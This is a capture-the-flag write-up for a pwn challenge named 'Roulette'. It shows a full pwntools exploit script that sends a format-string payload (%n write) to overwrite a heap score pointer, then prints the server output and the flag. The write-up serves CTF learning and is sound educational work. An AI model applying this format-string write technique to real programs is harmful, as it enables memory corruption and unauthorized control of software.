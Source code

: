 # Roulette

**Category**: Pwn

![./screenshots/0.png](./screenshots/0.png)

# Solution

The intended solution involves integer overflow, insecure PRNG & leaking values using another bug(format string).

However, during the CTF, I found an un-intended pathway to exploit the roulette game & get the flag  

```py
#!/usr/bin/env python
from pwn import *
exe = context.binary = ELF('./roulette.bin')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('challenges.ctfd.io', 30426)
    else:
        return process([exe.path] + argv, *a, **kw)


magic_num   = b'202009'
num_rounds  = b'%10000001c%12$n' # overwriting the 'score' pointer on the heap(12th element), 
                                 # https://www.youtube.com/watch?v=KpXsfimrkFo


# ==============================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b'play(Up to 2)?\n')
io.sendline(b'2')
io.recvuntil(b'Choose your bet (1-36)\n')
io.sendline(magic_num)
io.recvuntil(b'you entered the right one):\n')
io.sendline(num_rounds)
io.recvuntil('Won')

io.interactive()
```

The format string payload(in ``num_rounds``) will overwrite the 'score' pointer on the heap with the value ``10000001``, allowing us to affect the ``jle`` instruction(below).

![./screenshots/1.png](./screenshots/1.png)

If the jump will not be taken, we will win the game & get the flag.

output from server:
```
You Won!
The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

(: